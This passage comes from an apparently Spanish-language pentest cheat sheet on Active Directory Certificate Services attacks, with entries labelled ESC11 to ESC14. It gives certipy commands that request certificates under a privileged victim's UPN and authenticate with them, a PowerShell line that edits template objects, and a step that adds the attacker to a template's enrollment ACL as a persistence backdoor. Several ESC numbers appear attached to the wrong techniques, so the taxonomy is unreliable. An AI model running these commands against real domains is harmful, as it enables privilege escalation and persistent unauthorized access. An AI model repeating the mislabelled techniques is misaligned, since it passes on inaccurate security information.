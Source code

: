 **Por qué funciona:**  
El atacante solicita un certificado con el UPN de una cuenta privilegiada.

**PoC:**
```bash
certipy req -u usuario -p pass -ca CA-Server -template <plantilla> -upn <victima@dominio.local>
```

---

### ESC11: Plantillas con Client Authentication

**Descripción:**  
Plantillas configuradas para Client Authentication, sin restricciones adecuadas.

**Por qué funciona:**  
Permite solicitar certificados válidos para autenticación Kerberos.

**PoC:**
```bash
certipy req -u usuario -p pass -ca CA-Server -template <plantilla>
certipy auth -pfx <.pfx obtenido>
```

---

### ESC12: Control sobre objetos de Plantillas

**Descripción:**  
Control sobre los objetos AD que representan las plantillas.

**Por qué funciona:**  
Permite cambiar los permisos de inscripción o los EKU.

**PoC:**
```powershell
Set-ADObject -Identity "CN=<plantilla>,..." -Add @{...}
```

---

### ESC13: Vulnerabilidad en la revocación

**Descripción:**  
Si el atacante puede impedir la revocación de certificados comprometidos.

**Por qué funciona:**  
Permite mantener persistencia usando certificados aun después de ser detectado.

---

### ESC14: Persistencia en Plantillas

**Descripción:**  
Crear o modificar plantillas para permitir persistencia futura (backdoors en plantillas).

**PoC:**  
Agregarse a la ACL de inscripción de una plantilla de uso común.

---